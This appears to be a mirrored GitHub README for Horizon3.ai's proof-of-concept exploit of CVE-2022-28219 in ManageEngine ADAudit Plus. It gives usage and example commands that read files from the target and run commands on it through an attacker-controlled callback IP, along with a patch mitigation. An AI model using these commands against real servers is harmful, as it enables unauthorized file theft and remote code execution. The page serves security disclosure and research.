 # CVE-2022-28219

PoC for ManageEngine ADAudit Plus CVE-2022-28219

| Infos    | Value                                                              |
| -------- | -------------------------------------------------------------------|
| Username | [https://github.com/horizon3ai](https://github.com/horizon3ai) |
| Url      | [https://github.com/horizon3ai/CVE-2022-28219](https://github.com/horizon3ai/CVE-2022-28219)                                               |
| Stars    | 40                                                          |
| License  | Apache License 2.0                                                        |

<details>

<summary>Topic / Tags</summary>



</details>

## Readme

# CVE-2022-28219
POC for CVE-2022-28219 affecting ManageEngine ADAudit Plus builds < 7060

## Technical Analysis
More details on our blog:
https://www.horizon3.ai/red-team-blog-cve-2022-28219

## Usage

```
% python3 CVE-2022-28219.py -h
usage: CVE-2022-28219.py [-h] -t TARGET -l LHOST -d DOMAIN [-lhp HTTP_PORT] [-lfp FTP_PORT] [-f FILE] [-c COMMAND] [-u USER]

optional arguments:
  -h, --help            show this help message and exit
  -t TARGET, --target TARGET
                        target URL with port
  -l LHOST, --lhost LHOST
                        local bind IP
  -d DOMAIN, --domain DOMAIN
                        fully qualified domain served by ADAudit Plus
  -lhp HTTP_PORT, --http-port HTTP_PORT
                        local HTTP port to bind to
  -lfp FTP_PORT, --ftp-port FTP_PORT
                        local FTP port to bind to
  -f FILE, --file FILE  get file or directory listing at given path, use forward slashes and don't include drive, e.g. /windows/win.ini or /users
  -c COMMAND, --command COMMAND
                        command to execute, e.g. calc.exe
  -u USER, --user USER  user running ADAudit Plus app, useful for finding upload file quickly
```

For instance, to grab the `c:\windows\win.ini` file:

`python3 CVE-2022-28219.py -t <target_url> -l <attacker_ip> -d <target_fqdn> -f /windows/win.ini`

Or to run `calc.exe` on the target:

`python3 CVE-2022-28219.py -t <target_url> -l <attacker_ip> -d <target_fqdn> -c calc.exe`

Note file retrieval and RCE requires ManageEngine ADAudit Plus to be running on Java runtime 8u121 or below. This will be true most of the time as the default Java runtime version bundled with ADAudit Plus is 8u051.

## Mitigation

Update to [ManageEngine ADAudit Plus build 7060 or later](https://www.manageengine.com/products/active-directory-audit/cve-2022-28219.html).

## Follow the Horizon3.ai Attack Team on Twitter for the latest security research:
*  [Horizon3 Attack Team](https://twitter.com/Horizon3Attack)
*  [James Horseman](https://twitter.com/JamesHorseman2)
*  [Zach Hanley](https://twitter.com/hacks_zach)

## Disclaimer
This software has been created purely for the purposes of academic research and for the development of effective defensive techniques, and is not intended to be used to attack systems except where explicitly authorized. Project maintainers are not responsible or liable for misuse of the software. Use responsibly.


## Get the content

```
git clone https://github.com/horizon3ai/CVE-2022-28219
cd CVE-2022-28219
```

{% embed url="https://github.com/horizon3ai/CVE-2022-28219" %}

<figure><img src="https://avatars.githubusercontent.com/u/79593994?v=4" alt=""><figcaption><p>horizon3ai</p></figcaption></figure>
